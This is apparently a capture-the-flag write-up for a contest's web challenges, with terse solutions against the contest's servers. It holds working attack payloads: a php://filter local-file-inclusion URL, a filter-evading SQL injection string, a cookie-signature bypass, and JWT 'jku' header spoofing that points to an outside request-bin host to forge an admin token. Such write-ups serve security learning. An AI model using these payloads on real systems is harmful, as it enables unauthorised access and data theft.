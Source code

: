 # Web 
## Agent 95 (50)

Set user agent as Windows 95:

https://developers.whatismybrowser.com/useragents/parse/2520-internet-explorer-windows-trident

```python
import requests

headers = {
    'Connection': 'keep-alive',
    'Cache-Control': 'max-age=0',
    'Upgrade-Insecure-Requests': '1',
    # windows 95 user agent
    'User-Agent': 'Mozilla/4.0 (compatible; MSIE 5.5; Windows 95; BCD2000)',
    'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9',
    'Accept-Language': 'en-US,en;q=0.9',
}

response = requests.get('http://jh2i.com:50000/', headers=headers, verify=False)
```

## Localghost (75)

Check local storage

![](images/2020-06-17-21-33-43.png)

## Phphonebook (100)

LFI vulnerability:
```
http://jh2i.com:50002/index.php?file=php://filter/convert.base64-encode/resource=index.php
```

~index.php~ contains this juicy bit:
```
<?php
      extract($_POST);

    	if (isset($emergency)){
    		echo(file_get_contents("/flag.txt"));
    	}
    ?>
```

So just add emergency to POST request

## Official Business (125)

```python
def load_cookie():

    cookie = {}
    auth = request.cookies.get("auth")
    if auth:

        try:
            cookie = json.loads(binascii.unhexlify(auth).decode("utf8"))
            digest = cookie.pop("digest")

            if (
                digest
                != hashlib.sha512(
                    app.secret_key + bytes(json.dumps(cookie, sort_keys=True), "ascii")
                ).hexdigest()
            ):
                return False, {}
        except:
            pass

    return True, cookie
```

Thrown exceptions pass the `load_cookie` check, so just send request with no `digest` field in the cookie

## Seriously (125)
## Extraterrestrial (125)
## Rejected Sequel (150)

`"/**/union/**/select/**/flag/**/FFROMROM/**/flag/**/WWHEREHERE/**/TRUE/**/or/**/""="
`
## B'omarr Style (200)
## Flag Jokes (200)

Need to set user as admin:
![](images/2020-06-17-23-18-28.png)

We get a JWT token in the cookie, decode it with [JWT Debugger](https://jwt.io):

Header:
```
{
  "alg": "RS256",
  "jku": "http://localhost:5000/static/jwks.json",
  "kid": "sqcE1a9gj9p08zNMR1MWbLLvuaPyUeJEsClBhy7Q4Jc"
}
```

Payload
```
{
  "username": "tom"
}
```

The `jku` is an uri that references the public key used for generating the signature. We can try JWKS spoofing, where we change the ~jku~ field to our own server and see if we get a hit.

`static/jwks.json` returns the following:
```
{
    "keys": [
        {
            "e": "AQAB",
            "kid": "sqcE1a9gj9p08zNMR1MWbLLvuaPyUeJEsClBhy7Q4Jc",
            "kty": "RSA",
            "n": "1bVdpTILcGSahuOL6IJCbUpDZTGFHc8lzQORNLQBXDiRd1cC1k5cG41iR1TYh74cp8HYmoLXy4U2bp7GUFm0ip_qzCxcabUwWCxF07TGsmiFmCUbcQ6vbJvnSZSZGe-RFPgHxrVzHgQzepNIY2TmjgXyqt8HNuKBJQ6NoTviyxZUqy65KtSBfLYh5XzFn3FPemOla8kGBu7moSbUpgO1t3m3LgxBV5y51E1xSSoC7nAYPFrQ9wOTHEh7kGxGUQqKtGswyi2ncH22VcfQkxMA0HerFMPOr2n9eEZEbeJFco9Gp3drAYDCyj0QbkJKGdbl_50cimZ7eXgeyc3lEEXL7Q"
        }
    ]
}
```
Change the header to:

```
{
  "alg": "RS256",
  "jku": "https://postb.in/1592407627895-7120936170686",
  "kid": "sqcE1a9gj9p08zNMR1MWbLLvuaPyUeJEsClBhy7Q4Jc"
}
```

And you can see a hit.

Create new JWT keys with: https://mkjwk.org

And convert JWK to PEM: https://8gwifi.org/jwkconvertfunctions.jsp

Host the public key somewhere and edit the JWT token


## Mongolian BBQ (225)
## Criss Cross (400)
## Trash The Cache (1000)
